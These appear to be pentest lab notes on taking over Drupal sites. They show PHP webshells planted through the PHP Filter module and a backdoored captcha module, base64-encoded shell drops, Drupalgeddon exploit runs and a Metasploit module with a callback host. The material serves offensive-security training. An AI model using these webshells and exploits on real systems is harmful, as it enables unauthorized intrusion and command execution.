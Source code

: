## Leveraging the PHP Filter Module

1. Login as admin
2. Enable "PHP filter" module
3. Save configuration
4. Content -> Add content -> Basic page
```
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
5. Set Text format to PHP code

```
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```

If Drupal is version 8 onward, then the PHP Filter module is not installed by default.

Check with client before adding the module.

**Download the most recent version of the module from the Drupal website
```
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
- Once downloaded, go to Administration > Reports > Available updates
- May be under the "Extend" dropdown

1. Click on Browse
2. Select the file from the directory we downloaded it to
3. Click Install
4. Click on Content and create a new basic page
5. Redo the same steps as before


## Uploading a Backdoored Module

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

```shell.php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

```.htaccess
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

1. Given admin access, click on Manage > Extend on sidebard
2. + Install new module
3. Browse to backdoored Captcha archive and click Install
```
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```


## Leveraging Known Vulnerabilities
- https://www.drupal.org/SA-CORE-2014-005 (Drupalgeddon)
- https://www.drupal.org/sa-core-2018-002 (Drupalgeddon2)
- https://cvedetails.com/cve/CVE-2018-7602/ (Drupalgeddon3)


## Drupalgeddon (add admin)
https://www.exploit-db.com/exploits/34992
https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/ (Metasploit)
```
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

## Drupalgeddon2
https://www.exploit-db.com/exploits/44448
```
python3 drupalgeddon2.py
http://drupal-dev.inlanefreight.local/
curl -s http://drupal-dev.inlanefreight.local/hello.txt
```
```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```
```
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```
```
python3 drupalgeddon2.py
http://drupal-dev.inlanefreight.local/
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

**Drupalgeddon3

1. Login and obtain session cookie with burp suite or inspect element
```
sudo msfconsole
use multi/http/drupal_drupageddon3
set rhosts 10.129.42.195
set VHOST drupal-acc.inlanefreight.local
set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
set DRUPAL_NODE 1
set LHOST 10.10.14.15
show options
exploit
```
